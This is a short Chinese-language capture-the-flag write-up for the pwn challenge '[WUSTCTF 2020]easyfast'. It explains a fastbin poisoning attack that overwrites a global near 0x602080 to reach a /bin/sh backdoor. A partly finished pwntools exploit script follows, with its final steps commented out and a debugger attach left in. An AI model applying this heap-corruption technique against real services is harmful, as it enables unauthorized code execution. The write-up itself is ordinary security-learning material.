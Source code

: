 # [WUSTCTF 2020]easyfast

![image-20250204133453471](./../images/image-20250204133453471.png)

这里还是一些常规的保护因此看ida反编译的

![image-20250204133545639](./../images/image-20250204133545639.png)

并且在sub_400896的位置发现了binsh

![image-20250204133811046](./../images/image-20250204133811046.png)

![image-20250204133836597](./../images/image-20250204133836597.png)

因此我们的第一想法是把qword的位置改为0就可以了

所以我们的思路是

通过fastbin把这个位置当成fd来申请出来

![image-20250204134047918](./../images/image-20250204134047918.png)

并且发现刚好有一个0x50的一个值且在0x602088的位置因此可以把这个位置当成size

所以我们要申请的是0x40大小的堆块当他free以后就可以放到0x50的fastbin中

因此我们的exp为

```python
from pwn import *

# io = remote("node5.anna.nssctf.cn",22120)
io = process("/home/fofa/service")
def addr_chunk(size):
    io.sendlineafter("choice>",'1')
    io.sendlineafter("size>",str(size))
def free_chunk(idx):
    io.sendlineafter("choice>\n",'2')
    io.sendlineafter("index>\n",str(idx))
def edit_chunk(idx,data):
    io.sendlineafter(b'choice>\n', b'3')
    io.sendlineafter(b'index>\n', str(idx))
    io.sendline(data)

def backdoor():
    io.sendlineafter('choice>\n', b'4')

addr_chunk(0x40)#0
addr_chunk(0x40)#1
free_chunk(0)
free_chunk(1)
edit_chunk(1,p64(0x602080))
# addr_chunk(0x40)#1
# addr_chunk(0x40)#2
# edit_chunk(3,p64(0))
gdb.attach(io)
# backdoor()
io.interactive()
```

